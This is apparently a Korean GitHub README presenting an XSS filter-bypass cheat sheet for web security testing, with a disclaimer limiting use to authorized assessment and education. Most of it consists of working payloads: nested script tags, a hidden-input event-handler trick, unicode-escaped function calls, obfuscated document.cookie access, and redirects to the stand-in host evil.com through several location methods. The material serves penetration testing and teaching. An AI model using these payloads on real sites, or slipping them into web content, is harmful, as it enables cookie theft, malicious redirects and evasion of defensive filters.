 # XSS-Bypass-CheatSheet
정리된 **XSS 필터 우회 페이로드**와 **보안 점검 시 활용 가능한 기법 모음**입니다.  
XSS 취약점 점검을 위한 **필터 우회 구문** 및 **케이스별 정리**를 포함합니다.

---

## 📂 구성 내용

- ✅ 필터 우회용 XSS 페이로드 모음
- ✅ 상황별(WAF, 입력 값 검증 우회 등) 우회 기법 정리
- ✅ 실전 점검에서 활용된 사례 기반 정리
---


## 🛡️ 책임 한계 및 유의사항
> 이 저장소에 포함된 모든 XSS 필터 우회 구문과 기법은 **보안 점검 및 교육 목적**으로만 제공됩니다.  
> 실제 시스템이나 타인의 서비스에 **무단으로 테스트하거나 악용하는 것은 법적인 책임을 초래할 수 있으며**,  
> 이에 따른 모든 책임은 사용자 본인에게 있습니다.  
> 본 저장소의 내용을 사용함으로써 발생하는 **직·간접적인 피해에 대해 작성자는 어떠한 책임도 지지 않습니다.**
---

 XSS 필터 우회 및 테스트 기법 모음

본 저장소는 XSS(Cross-Site Scripting) 취약점 점검을 위한 필터 우회 구문, 테스트 케이스, 및 간단한 설명을 정리한 자료입니다. 보안 점검 및 교육 목적으로만 사용해 주세요.

## 🔍 XSS 개요

XSS는 공격자가 웹 페이지에 악성 스크립트를 삽입하여 사용자의 브라우저에서 실행되도록 유도하는 취약점입니다. 주로 사용자 입력값을 적절히 검증하거나 이스케이프하지 않을 경우 발생합니다.

### 종류
- **Reflected XSS**: URL 등에 포함된 스크립트가 바로 반영되어 실행됨
- **Stored XSS**: 데이터베이스 등에 저장된 스크립트가 나중에 실행됨
- **DOM-based XSS**: 클라이언트 측 자바스크립트 로직에서 발생함

## 💣 CASE별 우회 기법

### 1. 태그 분할 및 중첩 우회 (Broken/Nested Tag Bypass)

필터가 단순히 script 문자열이 삭제되는 경우, scscriptript 또는 scrscriptipt 등의 형태로 필터를 우회할 수 있습니다.
💡 예시
```
<scscriptript></scriscriptpt>
```

---

### 2. hidden 필드 내 태그 탈출이 불가능한 경우(Hidden Input Field Payload)
\<input type="hidden"\> 등의 폼 필드 내 속성에서 이벤트 핸들러를 통한 실행을 유도하는 방식입니다.
2024년 7월에 등장한 새로운 우회 기법으로, oncontentvisibilityautostatechange 이벤트를 이용해 사용자 인터랙션 없이 XSS를 트리거할 수 있습니다. 이 기법은 Chrome Canary 및 최신 버전의 Chrome에서 작동하며, 기존 XSS 필터링을 우회하는 데 활용될 수 있습니다.
💡 예시
```
<input type="hidden" oncontentvisibilityautostatechange="alert(/TEST/)" style="content-visibility:auto">
```

---

### 3. 유니코드 인코딩 우회 (함수 호출 필터 우회)
웹 방화벽(WAF)이나 필터링 로직이 alert(), confirm() 등의 특정 함수 호출 문자열만 필터링할 경우, 유니코드 이스케이프를 사용하여 탐지를 우회할 수 있습니다. 이벤트 핸들러 자체는 허용되지만 내부 함수 호출만 제한하는 상황에서 효과적입니다.

💡 예시
```
<img src=x onerror="\u0061lert(1)">
<img src=x onerror="\u0063onfirm(1)">
```
위 코드는 각각 alert(1), confirm(1)을 유니코드로 표현하여 필터를 우회합니다.
\u0061 → a, \u0063 → c 이므로 최종적으로는 alert() 및 confirm()과 동일하게 동작합니다.

---

### 4. document.cookie 접근 우회 (속성 인덱싱 우회)
일부 필터는 document.cookie라는 문자열을 정적으로 탐지하여 차단합니다.
이럴 경우, 속성 접근을 문자열 인덱싱 방식으로 우회할 수 있습니다.

💡 예시
```
<script>alert(document['cookie'])</script>
<script>alert(document['c'+'ookie'])</script>
<script>alert(document[String.fromCharCode(99,111,111,107,105,101)])</script>
```
위 코드는 모두 document.cookie와 동일하게 작동하지만, 문자열 결합 또는 유니코드로 표현되어 필터링을 회피합니다.

 ---
 
### 5. location.href 관련 우회 (리디렉션 함수 다양화)
필터가 location.href만 막을 경우, 동일한 효과를 가진 다른 속성 또는 메서드를 활용해 우회가 가능합니다.

### 💡 예시
```
location.href = 'https://evil.com'
location['href'] = 'https://evil.com'
location.assign('https://evil.com')
location['assign']('https://evil.com')
location.replace('https://evil.com')
window.location='https://evil.com'
top.location='https://evil.com'
window.top.location='https://evil.com'
```
### 📝 설명  
location.assign() : 새 페이지로 이동 (기록 남음)  
location.replace() : 새 페이지로 이동 (기록 남지 않음, back 불가)  
location['assign']() : 필터 우회용 문자열 분리  
window.location : 전역 객체 접근으로 우회 가능

---

### 6. <script> 태그 내 문자열 우회 (String Context Injection)
웹 애플리케이션이 <script> 태그 내에서 사용자 입력을 문자열로 삽입할 경우, 이를 활용한 다양한 우회 기법이 존재합니다.

### 💡 예시 (정상 출력 예상)
```
<script>
  var msg = "Hello USER_INPUT!";
</script>
```

### 💡 예시(공격자가 USER_INPUT에 아래와 같은 값을 입력할 경우)
### ✅ 문자열 닫기 + 코드 삽입 + 재닫기
```
";alert(1);//
```
### 최종 결과:
```
<script>
  var msg = "";alert(1);//";
</script>
```
  
### ✅ 다양한 연산자/패턴을 활용한 실행
### 패턴 설명
"aaaa"*alert()*"aaaa"	곱셈 연산자 활용 – 실행 후 NaN 반환되지만 alert()은 실행됨  
"aaaa"/alert()/"aaaa"	나눗셈 연산자 활용  
"aaaa"-alert()-"aaaa"	뺄셈 연산자 활용  
"aaaa"^alert()^"aaaa"	XOR 연산자 활용  
"aaaa"+alert()+"aaaa"	문자열 + alert 함수 결합 (NaN 포함 가능)  

### 💡 예시:
```
<script>
  var a = "aaaa"*alert(1)*"aaaa";
  var a = "aaaa"/alert(1)/"aaaa";
  var a = "aaaa"-alert(1)-"aaaa";
  var a = "aaaa"^alert(1)^"aaaa";
  var a = "aaaa"+alert(1)+"aaaa";
</script>
```

### ✅ HTML Escape 우회 목적의 <script> 중첩 삽입
### 💡 예시
```
<script>
  var payload = "aaa<script>alert(1)</script>aaa";
</script>
```
💡 위 방식은 서버 측에서 "..aaa<script>alert(1)</script>aaa.." 문자열에 사용자 입력을 넣는 경우에만 작동하며, 필터링이 허술할 때 위험합니다.
